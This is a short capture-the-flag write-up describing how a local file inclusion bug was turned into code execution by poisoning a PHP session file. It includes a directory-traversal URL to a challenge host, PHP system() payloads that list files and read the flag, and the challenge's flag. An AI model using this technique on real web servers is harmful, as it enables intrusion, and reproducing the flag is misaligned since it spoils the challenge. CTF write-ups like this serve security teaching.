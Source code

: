 We can see that some of the urls have a query param that takes a file name so we can test for LFI

LFI works, so now to get RCE to find the flag

One of the ways of doing this is to use the session files, we can set a session var using the 'Send' page

Then we have to enum for the session files, there are a few locations for these but in this case its the tmp dir which is quite common

So hitting this url will run whatever code we had in our session file and show it in the source

http://165.227.231.249:31831/?f=../../../../../tmp/sess_2a560b7bbb81512b5c16e76edc9649ec

Payload 1
```php
<?php system('ls'); ?>
```
Payload2
```php
<?php system('cat flag_ffacf623917dc0e2f83e9041644b3e98.txt'); ?>
```

CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
